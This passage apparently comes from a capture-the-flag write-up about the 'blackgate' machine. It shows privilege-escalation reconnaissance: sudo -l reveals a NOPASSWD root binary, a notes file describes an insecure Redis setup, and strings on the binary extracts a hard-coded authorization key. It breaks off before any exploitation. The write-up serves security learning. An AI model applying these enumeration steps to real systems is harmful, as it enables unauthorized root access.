 
## Privilege Escalation
### Information Gathering
#### Privilges
**sudo**
The result of the `sudo -l` command showed that I could execute `/usr/local/bin/redis-status` with `root` privileges. After further investigation, I discovered that this binary was not provided by Redis but was instead a custom binary created within the server.
```sh
prudence@blackgate:~$ sudo -l
sudo -l
Matching Defaults entries for prudence on blackgate:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prudence may run the following commands on blackgate:
    (root) NOPASSWD: /usr/local/bin/redis-status
```

**Interesting file**
There was a `notes.txt` file inside the `/home/prudence` directory, and its content contained the output of the `redis server` execution process.
```sh
prudence@blackgate:~$ cat notes.txt
cat notes.txt
[✔] Setup redis server
[✖] Turn on protected mode
[✔] Implementation of the redis-status
[✔] Allow remote connections to the redis server 
```

### Interesting program
The result of the `ls -al` command showed that the user `prudence` did not have permission to directly modify `/usr/local/bin/redis-status`.
```sh
prudence@blackgate:/tmp$ ls -al /usr/local/bin/redis-status
ls -al /usr/local/bin/redis-status
-rwxr-xr-x 1 root root 17056 Dec  6  2021 /usr/local/bin/redis-status
```

I extracted strings in binary  with `strings` command. Therefore, I obtained the value `ClimbingParrotKickingDonkey321`, which is presumed to be the `Authorization Key` value and observed that the command `/usr/bin/systemctl status redis` was also executed.
```sh
prudence@blackgate:/tmp$ strings /usr/local/bin/redis-status
strings /usr/local/bin/redis-status
/lib64/ld-linux-x86-64.so.2
...
[*] Redis Uptime
Authorization Key: 
ClimbingParrotKickingDonkey321
/usr/bin/systemctl status redis
Wrong Authorization Key!
Incident has been reported!
...
```
